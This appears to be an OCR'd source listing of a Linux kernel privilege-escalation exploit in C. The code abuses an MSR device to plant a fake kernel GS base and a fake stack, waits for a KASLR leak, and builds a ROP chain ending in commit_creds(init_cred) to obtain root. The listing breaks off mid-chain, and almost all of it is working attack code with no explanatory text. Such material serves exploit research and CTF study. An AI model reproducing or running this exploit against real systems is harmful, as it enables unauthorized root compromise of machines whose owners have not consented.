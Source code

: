 ```c


int  main(){
	pin_cpu(0);

	int fd =  open("/dev/msr", O_RDONLY);
	char* kgsbase;
	char* fake_stack;
	ul* kbase;
	int parent_child =  getpid();

	ul rsp;
	__asm__  volatile ("mov %%rsp, %0" : "=r"(rsp));

	stop("set eflags mask");
	ioctl(fd, MSR_SYSCALL_MASK, EFLAGS_MASK);

	stop("set fake kernel gs base");
	fake_stack = (char*) mmap(NULL, 0x2000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_SHARED | MAP_ANONYMOUS | MAP_POPULATE, -1, 0);
	kgsbase = (char*) mmap((void* ) KERNEL_GS, GS_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS | MAP_POPULATE, -1, 0);
	kbase = (ul*) mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS | MAP_POPULATE, -1, 0);

	int pid =  fork();
	if (!pid){
		pin_cpu(1);
		memset(fake_stack, 0, 0x2000);
		memset(kbase, 0, 0x1000);
		memset(kgsbase, 0, GS_SIZE);

		*(ul*) &kgsbase[0x2be40] = (ul) kgsbase;
		*(ul*) &kgsbase[0x6004] = (ul) fake_stack +  0x1000;
		*(ul*) &kgsbase[0x2be58] = (ul) fake_stack +  0x1000;
		char* chain = fake_stack+0x1000;

		*&kbase[1] =  1;
		while (!*kbase){} // wait for parent to overwrite MSR_KERNEL_GS_BASE and leak kaslr

		// set correct gs
		*(ul*) &fake_stack[0x1000] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x1008] = (ul) &fake_stack[0x1068];
		*(ul*) &fake_stack[0x1010] = POP_RSI +  *kbase;
		*(ul*) &fake_stack[0x1018] = PAGE_OFFSET_BASE +  *kbase;
		*(ul*) &fake_stack[0x1020] = POP_RCX +  *kbase;
		*(ul*) &fake_stack[0x1028] =  8;
		*(ul*) &fake_stack[0x1030] = REP_MOVS_ALTERNATIVE +  *kbase;
		*(ul*) &fake_stack[0x1038] = POP_RSI +  *kbase;
		*(ul*) &fake_stack[0x1040] = PHYS_GS;
		*(ul*) &fake_stack[0x1048] = POP_RDX +  *kbase;
		*(ul*) &fake_stack[0x1050] = (ul) &fake_stack[0x1068] - PHYS_GS -  1;
		*(ul*) &fake_stack[0x1058] = ADD_DWORD_RSIRDX1_ESI +  *kbase;
		*(ul*) &fake_stack[0x1060] = POP_RDX +  *kbase;
		*(ul*) &fake_stack[0x1068] =  0x6969696969696969;
		*(ul*) &fake_stack[0x1070] = POP_RCX +  *kbase;
		*(ul*) &fake_stack[0x1078] = MSR_KERNEL_GS_BASE;
		*(ul*) &fake_stack[0x1080] = WRMSR +  *kbase;

		// commit_creds(init_cred)
		*(ul*) &fake_stack[0x1088] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x1090] = INIT_CRED +  *kbase;
		*(ul*) &fake_stack[0x1098] = COMMIT_CREDS +  *kbase;
```